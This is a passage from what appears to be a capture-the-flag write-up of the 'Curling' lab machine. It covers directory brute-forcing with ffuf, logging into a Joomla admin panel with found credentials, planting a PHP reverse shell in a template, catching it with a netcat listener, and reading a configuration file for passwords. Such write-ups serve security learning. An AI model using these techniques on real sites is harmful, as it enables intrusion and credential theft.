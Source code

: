 The blog posts are written by "Super User" and one of them mentions an actual name: Floris

![[curling_florispost.png]]

Attempting login on the homepage's login form as Floris lets us edit posts, but nothing useful. 

Used ffuf to enumerate subdomains, and found another login page at /administrator

```sh
❯ ffuf -w ~/MyWordlists/subdirectory/big.txt -u http://10.129.201.151/FUZZ -r
Command executed at: 2025-03-23 13:08:20

...
administrator           [Status: 200, Size: 5116, Words: 240, Lines: 110, Duration: 179ms]
...
:: Progress: [20469/20469] :: Job [1/1] :: 522 req/sec :: Duration: [0:00:45] :: Errors: 0 ::
```

![[curling_adminpage.png]]

Logging in with `Floris:Curling2018!` gives us access to the admin dashboard.

There's an ability to upload files, but attempting to upload a php reverse shell are blocked.
Modifying the settings, we can disable the restrict uploads feature.
![[curling_mediaoptions.png]]

The reverse shell was still being blocked from upload.

Navigating to Templates, we see that the unused Protostar template uses php files, which we can modify and include our reverse shell code

![[curling_template.png]]

Previewing the template executes the code, giving us a reverse shell.

```sh
❯ nc -lvnp 4444
Command executed at: 2025-03-23 13:26:38
listening on [any] 4444 ...
connect to [10.10.14.89] from (UNKNOWN) [10.129.201.151] 38018
Linux curling 4.15.0-156-generic #163-Ubuntu SMP Thu Aug 19 23:31:58 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:37:22 up 46 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1662): Inappropriate ioctl for device
bash: no job control in this shell
www-data@curling:/$ 
```

A configuration file in the web root reveals the password for floris: `mYsQ!P4ssw0rd$yea!`
```sh
www-data@curling:/home/floris$ cat /var/www/html/configuration.php 
<?php
class JConfig {
        public $offline = '0';
        public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
        public $display_offline_message = '1';
        public $offline_image = '';
        public $sitename = 'Cewl Curling site!';
        public $editor = 'tinymce';
        public $captcha = '0';
        public $list_limit = '20';
        public $access = '1';
        public $debug = '0';
        public $debug_lang = '0';
        public $dbtype = 'mysqli';
```